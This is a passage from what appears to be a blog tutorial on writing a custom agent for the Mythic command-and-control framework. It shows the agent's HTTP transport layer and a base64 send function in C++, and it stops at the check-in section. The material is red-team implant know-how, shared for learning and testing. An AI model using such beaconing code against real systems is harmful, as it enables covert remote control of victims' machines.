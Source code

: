     return outData;
}

{% endhighlight %}


## Transport

Since our POC is relatively simple and straightforward, we only decided to implement communication over HTTP. We did so with the WinHTTP API, and got inspired by an abudant number of examples available online.

However, we provided with a (yet simple) layer of abstraction in order to allow for other C2 channels to be implemented.

{% highlight C++ %}
Parser* sendAndReceive(PBYTE data, SIZE_T size)
{

#ifdef HTTP_TRANSPORT
    return makeHTTPRequest(data, size);
#endif 
// Add your own protocol here !

    return nullptr;
}
{% endhighlight %}

Also, Mythic need to receive B64 data. Therefore, we have created a function that allows to encode and send the packages.

{% highlight C++ %}
PParser sendPackage(PPackage package)
{
	PCHAR packetToSend = b64Encode((const unsigned char*)package->buffer, package->length);
	SIZE_T sizePacketToSend = b64EncodedSize(package->length);

	PParser response = sendAndReceive((PBYTE)packetToSend, sizePacketToSend);

	if (!response)
	{
		packetToSend = nullptr;
		return nullptr;
	}
		
	return response;
}
{% endhighlight %}

# Implementing the Check In

Our agent is now able to send HTTP requests to our C2 server, we now want it to checkin !

## Check In - Agent side
